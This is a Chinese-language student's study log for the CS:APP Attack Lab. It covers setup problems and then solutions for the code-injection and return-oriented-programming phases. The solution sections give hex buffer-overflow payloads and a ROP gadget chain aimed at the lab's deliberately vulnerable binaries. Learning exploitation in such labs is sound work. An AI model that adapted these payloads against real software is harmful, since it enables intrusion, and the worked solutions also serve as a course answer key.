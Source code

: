 11.10 开始

需要学习 CS: APP3e 书的 3.10.3 和 3.10.4 部分作为本实验室的参考资料，缓冲区溢出攻击可采用栈随机化

栈破坏检测 限制可执行代码区域这三种机制来限制

今天小摆



11.15

今天看了诸多博主做的level （一堆未见识过的 重定向之类的名词 加上枯燥的文档，让我难以自己做下去）

照葫芦画瓢的去做仍是出现一种 You caused a segmentation fault! 的错误



11.16 今天在线查了很多所谓segmentation fault! 的博客 没查出个所以然来

然后用WSL2原模原样的跑是没有产生这个问题的

今天小摆



11.20 虚拟机的突然崩溃 无法继续进行 ，明天开始WSL2的安装

今天弄了个WSL2 发现微软的好 把原先的virtual box删除了



11.23熟悉了WSL的操作

这周把这个lab解决



11.24

### level_2

这个阶段是调用给定的带参函数

通过注入少量代码

```c
1 void touch2(unsigned val)
2 {
3	 vlevel = 2; /* Part of validation protocol */
4 			if (val == cookie) {
5	 			printf("Touch2!: You called touch2(0x%.8x)\n", val);
6				validate(2);
								}
7 		 		else 	{
8 						printf("Misfire: You called touch2(0x%.8x)\n", val);
9 						fail(2);
10 						}
11 		exit(0);
12 }

```

函数的第一个参数是在寄存器 %rdi中传递的

思路就是 注入的代码应该将寄存器设置为cookie

然后利用ret指令将控制权转移到touch2中的第一个条指令

但不能使用jmp等跳转指令

参阅附录 b 中关于如何使用工具生成指令序列的字节级表示的讨论

也没有什么难度



1. 先把cookie的值移动到（movq） %rdi中

cookie的值在给定的文件中

2. 然后将touch2的第一条指令的地址压栈

通过gdb反汇编touch2函数后可以得到 0x00000000004017ec

3. 然后调用ret指令
4. 把汇编代码用 gcc -c xxx.s 编译成.o文件
5. 然后在gdb 反汇编获得这三条指令的字节表示





### level3

这次要传一个字符数组并与cookie的字符串表示进行比较

传字符数组就是传存字符串的首地址

但我们不能像level2 一样 直接把字符串放到getbuf的40个缓冲区上

因为这次巧妙的地方在于touch3里调用了一个函数

函数里在栈上开辟了一个很大的字符数组

然后用一个指针取截取随机的长度

然后用sprintf将cookie的值写到上面

这样做就覆盖了你想利用getbuf栈帧存储字符串的想法

所以我们只能将字符串放到别的地方（test函数的栈帧）

也就是用到getbuf返回地址（栈）之上

通过GDB得知 返回地址为	0x5561dc78 +0x24 

那我们在往栈底写八个字节（数组）



~~~c
48 c7 c7 a8 dc 61 55 68 <-- 这个数据保存在rsp位置（getbuf栈顶） 含有操作mov $string %rdi
fa 18 40 00 c3 00 00 00 										 pushq touch3
00 00 00 00 00 00 00 00											 ret (到)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 <-- 返回地址设置为getbuf的栈顶
35 39 62 39 39 37 66 61 <-- 字符串数据保存在test函数栈帧中  （栈底）
~~~





## Return-to-libc

### level_4

在rtarget上重复level2的事情

利用 给定的farm 找到可以用的gadget

不知道栈的地址

需要三个指令

popq %rax  （弹出八个字节给到rax	拿到cookie）

movq %rax ，%rdi	（传递给touch3参数）

ret	(调用touch3)

可能用到的函数都放在farm.c文件了

刚开始没注意到

想通过rtarget反汇编去找可用的代码段

结果发现不知道在哪里打断点

但farm.c 我们能直观利用的只是可以打断点的函数名罢了

我们还是要去gdb	rtarget

因为将farm.c编译成farm.s 再反汇编得到farm.d是不可行的

因为现在的gcc后得到的farm.d 让这个lab的两种攻击方法都不可行了

对比与level2 我们没用去使用明确的地址

而是利用现有的字节去构筑指令

然后利用寄存器去达到目的

~~~c
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00   /* 补齐至40 */
ab 19 40 00 00 00 00 00  /* popq rax 0x4019ab 0x4019a7 + 4 */
fa 97 b9 59 00 00 00 00  /* cookie 的值 */

a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */
ec 17 40 00 00 00 00 00  /* touch2 4017ec */
~~~

## level_5

就是用ROP完成level3的任务

思路大致和4一致

就是所需的指令更多 更加复杂

引用文档话

~~~c
Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.
Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.
~~~

暂时不考虑完成这个

2022-11-29完成lab
